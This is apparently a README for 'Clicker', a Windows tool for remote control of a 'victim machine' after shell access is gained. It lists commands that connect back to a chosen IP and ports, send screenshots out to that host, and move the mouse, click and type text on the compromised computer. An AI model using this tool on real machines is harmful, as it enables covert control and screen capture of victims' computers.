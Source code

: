 # Clicker
It's a pseudo remote GUI operation tool for Windows.
You need shell access to use Clicker on the victim machine.

If you use ClickOperator, this command is needed
```
clicker.exe -b {dst IP address} {dst port for command} {dst port for data}
```

You can move mouse cursol and click (x and y are coordinates, left click=L, left double click=L2, right click=R)
```
clicker.exe -e {dst IP address} {dst port for data} "c:x,y,L"
```
Clicker get screen-shot and send it to specified destination.

Input text
```
clicker.exe -e 127.0.0.1 {port for data} "i:input this text !"
```
you can use KeyCode
https://docs.microsoft.com/en-us/dotnet/api/system.windows.forms.sendkeys.send?view=net-5.0



